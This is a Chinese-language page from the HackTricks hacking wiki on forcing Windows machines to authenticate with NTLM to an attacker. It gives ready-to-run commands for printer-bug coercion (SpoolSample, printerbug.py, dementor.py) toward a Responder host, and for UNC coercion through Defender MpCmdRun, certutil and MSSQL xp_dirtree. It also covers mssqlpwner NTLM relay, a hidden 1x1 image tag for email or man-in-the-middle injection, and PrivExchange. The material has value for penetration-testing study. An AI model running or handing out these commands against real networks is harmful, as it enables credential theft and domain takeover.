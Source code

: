 # 强制 NTLM 特权认证

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) 是一个 **远程认证触发器的集合**，使用 C# 编写，采用 MIDL 编译器以避免第三方依赖。

## 打印机后台处理服务滥用

如果 _**打印后台处理程序**_ 服务 **已启用**，您可以使用一些已知的 AD 凭据向域控制器的打印服务器 **请求** 新打印作业的 **更新**，并告诉它 **将通知发送到某个系统**。\
请注意，当打印机将通知发送到任意系统时，它需要 **对该系统进行认证**。因此，攻击者可以使 _**打印后台处理程序**_ 服务对任意系统进行认证，而该服务将在此认证中 **使用计算机账户**。

### 在域中查找 Windows 服务器

使用 PowerShell 获取 Windows 计算机的列表。服务器通常是优先考虑的，因此我们将重点放在这里：
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### 查找监听的Spooler服务

使用稍微修改过的@mysmartlogin（Vincent Le Toux）的[SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)，查看Spooler服务是否在监听：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
您还可以在Linux上使用rpcdump.py并查找MS-RPRN协议
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 请求服务对任意主机进行身份验证

您可以从这里编译[ **SpoolSample**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
或使用 [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) 或 [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) 如果你在 Linux 上
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### 结合不受限制的委托

如果攻击者已经攻陷了一台具有[不受限制的委托](unconstrained-delegation.md)的计算机，攻击者可以**使打印机对该计算机进行身份验证**。由于不受限制的委托，**打印机的计算机帐户的TGT**将被**保存在**具有不受限制委托的计算机的**内存**中。由于攻击者已经攻陷了该主机，他将能够**检索此票证**并加以利用（[Pass the Ticket](pass-the-ticket.md)）。

## RCP 强制身份验证

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange`攻击是由于**Exchange Server `PushSubscription`功能**中的一个缺陷所导致的。该功能允许任何具有邮箱的域用户强制Exchange服务器通过HTTP对任何客户端提供的主机进行身份验证。

默认情况下，**Exchange服务以SYSTEM身份运行**，并被赋予过多的权限（具体来说，它在2019年之前的累积更新上具有**WriteDacl权限**）。这个缺陷可以被利用来启用**向LDAP中转信息并随后提取域NTDS数据库**。在无法向LDAP中转的情况下，这个缺陷仍然可以用于在域内中转和对其他主机进行身份验证。成功利用此攻击将立即授予任何经过身份验证的域用户帐户对域管理员的访问权限。

## 在Windows内部

如果您已经在Windows机器内部，可以使用以下命令强制Windows使用特权帐户连接到服务器：

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
或使用这个其他技术: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

可以使用 certutil.exe lolbin（微软签名的二进制文件）来强制 NTLM 认证:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML 注入

### 通过电子邮件

如果你知道想要攻陷的机器上用户的 **电子邮件地址**，你可以直接给他发送一封 **带有 1x1 图像** 的电子邮件，例如
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
和当他打开它时，他会尝试进行身份验证。

### MitM

如果你可以对一台计算机执行MitM攻击并在他可视化的页面中注入HTML，你可以尝试在页面中注入如下图像：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## 破解 NTLMv1

如果你能捕获 [NTLMv1 挑战，请阅读如何破解它们](../ntlm/#ntlmv1-attack)。\
&#xNAN;_&#x52;记住，为了破解 NTLMv1，你需要将 Responder 挑战设置为 "1122334455667788"_

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
